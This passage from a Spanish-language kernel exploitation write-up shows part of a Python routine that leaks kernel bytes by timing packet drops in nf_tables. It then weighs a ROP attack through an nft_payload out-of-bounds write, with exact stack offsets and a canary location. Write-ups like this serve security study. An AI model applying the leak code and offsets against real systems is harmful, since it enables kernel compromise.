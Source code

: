 ```python

        if not res:
            '''
            nuestro paquete fue soltado
            ya que no se regresó nada en los 200ms
            lo que significa que 

            byte to leak >= mid
            el byte a filtrar es mayor o igual a mid (127)
            '''
            low = mid
        else:
            '''
            [sanity check o prueba de cordura]

            se usa para evaluar rápidamente si 
            el valor a calcular es siquiera posible

            https://es.wikipedia.org/wiki/Prueba_de_cordura
            '''

            if res != b"MSG_OK":
                print("Something went wrong")
                return None

            '''
            Nuestro paquete fue aceptado, lo que
            significa que 

            byte to leak < mid
            byte a filtrar es menor a mid (127)
            '''
            high = mid - 1

leak_bytes = lambda: [leak_byte(i*8) for i in range(4)]
```

### 4.4 [Ejecución arbitraria de código (*Arbitrary code execution*)](https://es.wikipedia.org/wiki/Ejecuci%C3%B3n_arbitraria_de_c%C3%B3digo)

Ahora que conseguimos el leak, la ejecución arbitraria de código debería ser muy fácil. La escritura fuera de límites de `nft_payload` debería de poder escribir un ataque [*RoP*](https://es.wikipedia.org/wiki/Programaci%C3%B3n_orientada_al_retorno) en cadena para el *stack*, ¿cierto?

Nop. No tuvimos mucha suerte, al menos en este kernel en particular. La escritura fuera de límites de `nft_payload` casi en su totalidad se alinea con el *stack frame* de la rutina de `udp_sendmsg`. La dirección de `udp_sendmsg` se encuentra en el *offset* `+0x2f8` relativo a los registros, esta localización es muy baja como para ser alcanzada con `nft_payload` o `nft_bitwise` (podemos comenzar a escribir comenzando en el *offset* `+0x304`, tan cerca...). La dirección `inet_sendmsg` está localizada en el *offset* `+0x4a8`. Técnicamente podemos alcanzarlo (y sobreescribir los tres bytes inferiores), pero hay un [*stack canary*](https://en.wikipedia.org/wiki/Stack_buffer_overflow) (ténica utilizada para la detección de un *stack buffer overflow* antes de que la ejecución de código malicioso pueda suceder) en la dirección `+0x0458` que también necesitamos sobreescribir para lograr esto. Esto obviamente haría que el kernel crasheara, así que hacer esto no es una opción.
